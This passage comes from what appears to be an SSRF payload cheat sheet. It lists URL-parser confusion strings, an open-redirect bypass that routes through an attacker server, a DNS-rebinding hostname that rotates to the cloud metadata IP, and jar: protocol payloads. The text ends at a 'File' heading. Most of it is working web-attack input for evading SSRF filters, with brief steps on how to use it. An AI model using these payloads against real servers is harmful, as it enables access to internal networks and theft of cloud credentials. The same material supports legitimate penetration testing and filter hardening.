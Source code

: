 by Orange Tsai ([Blackhat A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf))

```powershell
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

![https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_Parser.png?raw=true](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.jpg?raw=true)

### Bypassing using a redirect
[using a redirect](https://portswigger.net/web-security/ssrf#bypassing-ssrf-filters-via-open-redirection)

```powershell
1. Create a page on a whitelisted host that redirects requests to the SSRF the target URL (e.g. 192.168.0.1)
2. Launch the SSRF pointing to  vulnerable.com/index.php?url=http://YOUR_SERVER_IP
vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1
```

### Bypassing using type=url

```powershell
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
```

### Bypassing using DNS Rebinding (TOCTOU)

```powershell
Create a domain that change between two IPs. http://1u.ms/ exists for this purpose.
For example to rotate between 1.2.3.4 and 169.254-169.254, use the following domain:
make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
```

### Bypassing using jar protocol (java only)

Blind SSRF

```powershell
jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
```

## SSRF exploitation via URL Scheme

### File 
